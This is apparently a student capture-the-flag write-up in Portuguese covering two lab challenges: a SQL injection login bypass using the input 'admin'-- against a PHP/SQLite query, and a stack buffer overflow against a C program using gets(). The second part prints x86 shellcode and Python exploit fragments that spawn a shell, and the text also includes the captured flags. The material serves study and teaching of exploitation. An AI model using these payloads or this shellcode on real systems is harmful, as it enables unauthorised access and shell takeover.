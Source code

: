 # CTF 4 - Semana 8

## Primeira parte

Inicialmente exploramos os ficheiros disponibilizados na plataforma CTF que são os mesmos que estão a ser executados no servidor na porta 5003. <br>
Verificamos que a base de dados usada é SQLite3 e quando o username é 'admin' o conteúdo do ficheiro `flag.txt` é mostrado na página web. Na parte do login a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```php
$username = $_POST['username'];
$password = $_POST['password'];             
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Ao usarmos o input "admin'--" através de SQL Injection garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT username FROM user WHERE username = 'admin'-- AND password = $password
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{ac3aa6c08d2bd43bc74361ad039139fd}`.

![CTF 4 1](../img/ctf4task1.png)

## Segunda parte

Com o comando **checksec** verificamos que `program` (main.c compilado) não tem o binário randomizado nem existem proteções do endereço de retorno usando canários. 

![CTF 4 2 a](../img/ctf4task2a.png)

Também tivemos acesso ao código fonte que está a ser executados no servidor na porta 4001:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

A função `gets` é insegura pois copia para `buffer` todo o input de stdin até atingir um `\0`. Assim, uma vez que a stack tem permissões de execução e os seus endereços não estão randomizados, é possível fazer um buffer overflow para controlar o endereço de retorno da função main.

Para construir o exploit usamos a linguagem Python e o mesmo shell code de CTFs anteriores que permitia lançar uma bash no terminal. Além disso, foi útil utilizar uma expressão regular para extrair o valor do endereço de buffer.

```python
ADDRESS_REGEX = "0x(.+).\n"
SHELL_CODE = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
  "\x0b\xcd\x80" 
).encode('latin-1')
```

O input terá exatamente 112 bytes: 100 bytes para atingir o máximo espaço de memória alocada em buffer e 12 bytes para dar overflow a 3 endereços:
- O endereço da variável passada à função printf;
- O frame-pointer de main;
- O endereço de retorno da main;

O exploit terá a seguinte estrutura:

- Os primeiros 23 bytes contêm o shell code;
- Os últimos 4 bytes contêm o endereço de retorno malicioso, que irá corresponder ao endereço do início do buffer;
- Os restantes bytes intermédios terão NOP (*no operation*). 

```python
content = ctf_server.recvuntil(b'input:').decode()
buffer_address = bytearray.fromhex(re.search(ADDRESS_REGEX, content).group(1))
buffer_address.reverse()

exploit = bytearray(NOP for _ in range(BUFFER_SIZE)) 
exploit[: len(SHELL_CODE)] = SHELL_CODE
exploit[BUFFER_SIZE - len(buffer_address):] = buffer_address
```

Isto irá reescrever o endereço de retorno da função main, que apontará agora para o shell code. Note-se que este processo também reescreve o frame pointer de main e o endereço do argumento de printf, que estão na stack entre o endereço de retorno e o buffer. No entanto, como main não chega a retornar, a manutenção dos valores originais torna-se irrelevante.

Tal como esperado, ao executar o código (disponível [aqui](../CTF/Exploits/ExploitCTF2S8.py)), conseguimos abrir uma bash no servidor:

![CTF 4 2 b](../img/ctf4task2b.png)

Conseguimos assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{a4421b76e3dfc304875754a99497e1f1}`.
